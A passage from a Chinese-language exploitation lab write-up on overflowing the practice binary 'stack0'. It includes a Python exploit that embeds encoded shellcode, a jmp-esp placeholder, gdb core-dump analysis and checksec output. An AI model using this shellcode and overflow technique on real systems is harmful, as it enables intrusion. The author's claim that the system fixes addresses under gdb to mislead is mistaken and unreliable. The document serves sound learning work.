 ```
./stack0
人工输入aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa1234bbbb
gdb -q -c core

```

从core文件中发现每次shellcode的位置（bbbb处）在内存中的地址都是变化的

**方法3:**

```
vi exploit.py
------------exploit.py--------------
#/usr/bin/python
import os
import sys
buf =  ""
buf += "\xba\x31\x6f\x3c\x05\xd9\xca\xd9\x74\x24\xf4\x5d\x33"
buf += "\xc9\xb1\x12\x31\x55\x12\x83\xc5\x04\x03\x64\x61\xde"
buf += "\xf0\xce\x4c\xe1\x91\xc7\xf6\x84\xd0\xc7\x4e\x3e\xca"
buf += "\xaa\x7f\x89\x99\x16\xc1\x53\xec\x51\xce\x66\x46\x0d"
buf += "\xba\x41\x3e\x34\x50\x90\xe1\x2c\xa4\xca\x12\xb5\xee"
buf += "\x65\x64\x0c\xec\x89\x71\x39\x31\x21\x7a\xaf\xe0\x7a"
buf += "\xf4\xc9\x69\x6b\x5c\x7f\x44\xd3\x6f\x7a\xc1\xbd\x35"
buf += "\x8b\xf4\xbe\x2c"

jmp_esp="some addr"
#print jmp_esp
input="a"*80+jmp_esp+buf
print input
os.system("echo '%s' | ./stack0" % input)
---------------end------------------

gdb -q -c core

```

从core文件中分析出的shellcode的位置（\xba\x31\x6f\x3c开始)都是变化的

通过这三种不同情况得出结论:

1.  linux的真实情况是每次shellcode在内存中的地址是变化的
2.  不能`gdb ./stack0`来看shellcode的内存地址，要通过`gdb -q -c core`来分析出系统运行`./stack0`时的真实情况,方法2和3都可行
3.  `gdb ./stack0`时，可能是系统判断有人在调度，所以故意让shellcode的内存地址每次都不变，用来干扰判断
4.  想直接在"a"*80+"1234"+"bbbb"中的1234的位置上写入shellcode的起始地址是行不能的，只能用jmp esp或其他方法

突然想到，在edb-debugger工具中找到的jmp esp的地址放入exploit.py中的jmp_esp中最后没有成功有可能是因为kali的安全防护功能，其中的系统内存中加载的/lib/i386-linux-gnu/ld-2.19.so有安全设置

下载checksec.sh检查一下：[http://www.trapkit.de/tools/checksec.sh](http://www.trapkit.de/tools/checksec.sh)

```
chmod +x ./checksec.sh
./checksec.sh --file /lib/i386-linux-gnu/ld-2.19.so
-------------output:----------------
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    DSO             No RPATH   No RUNPATH   /lib/i386-linux-gnu/ld-2.19.so
---------------end------------------

```
